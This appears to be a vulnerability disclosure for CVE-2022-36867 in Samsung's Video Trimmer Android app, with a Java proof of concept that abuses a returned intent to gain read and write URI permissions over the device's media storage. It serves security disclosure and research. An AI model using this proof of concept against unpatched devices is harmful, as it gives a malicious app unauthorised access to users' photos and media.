

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Video Trimmer</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.app.newtrim</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.27</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.09.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36867">CVE-2022-36867</a> (SVE-2022-0770)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$290</td>
    </tr>
</table>

# Description

Oversecured report:


The app passes the attacker's intent back, which leads to the interception of URI permissions.

**Proof of Concept**

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent("com.samsung.app.newtrim.multigrid");
    i.setClipData(ClipData.newRawUri("", MediaStore.Images.Media.EXTERNAL_CONTENT_URI));
    i.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
            | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
            | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
    startActivityForResult(i, 0);
}

protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);

    String uri = MediaStore.Images.Media.insertImage(getContentResolver(),
            Bitmap.createBitmap(1, 1, Bitmap.Config.ARGB_8888),
            "Title_1337",
            "Description_1337");
    Log.d("evil", "Result: " + uri);
}
```

## References

- [Oversecured Blog. Gaining access to arbitrary* Content Providers](https://blog.oversecured.com/Gaining-access-to-arbitrary-Content-Providers/)
